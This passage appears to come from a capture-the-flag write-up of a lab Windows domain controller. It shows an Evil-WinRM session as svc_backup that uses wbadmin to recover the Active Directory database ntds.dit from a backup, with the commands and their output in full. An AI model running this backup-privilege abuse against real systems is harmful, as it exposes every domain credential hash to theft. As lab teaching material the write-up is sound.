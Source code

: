 ```shell
C:\Windows\Logs\WindowsServerBackup\Backup-05-10-2020_18-26-09.log

*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp\CFX> ls


    Directory: \\10.10.10.192\C$\Windows\Temp\CFX


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         10/5/2020  3:27 PM                WindowsImageBackup
```

Now that we have obtainted WindowsImageBackup of `NTDS.dit` file inside the SMB share, we'll recovery the file inside our directory `cd C:\Users\svc_backup\Documents\`

For recovering the backup we need the backup version:

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 9/21/2020 4:00 PM
Backup location: Network Share labeled \\10.10.14.4\blackfieldA
Version identifier: 09/21/2020-23:00
Can recover: Volume(s), File(s)

Backup time: 10/5/2020 3:27 PM
Backup location: Network Share labeled \\10.10.10.192\C$\Windows\Temp\CFX\
Version identifier: 10/05/2020-22:27
Can recover: Volume(s), File(s)
```

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start recovery -version:10/05/2020-22:27 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Documents -notrestoreacl -quiet

wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Retrieving volume information...
You have chosen to recover the file(s) c:\windows\ntds\ntds.dit from the
backup created on 10/5/2020 3:27 PM to c:\Users\svc_backup\Documents.
Preparing to recover files...

Successfully recovered c:\windows\ntds\ntds.dit to c:\Users\svc_backup\Documents\.
The recovery operation completed.
Summary of the recovery operation:
--------------------

Recovery of c:\windows\ntds\ntds.dit to c:\Users\svc_backup\Documents\ successfully completed.
Total bytes recovered: 18.00 MB
Total files recovered: 1
Total files failed: 0

Log of files successfully recovered:
C:\Windows\Logs\WindowsServerBackup\FileRestore-05-10-2020_22-34-53.log

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents

```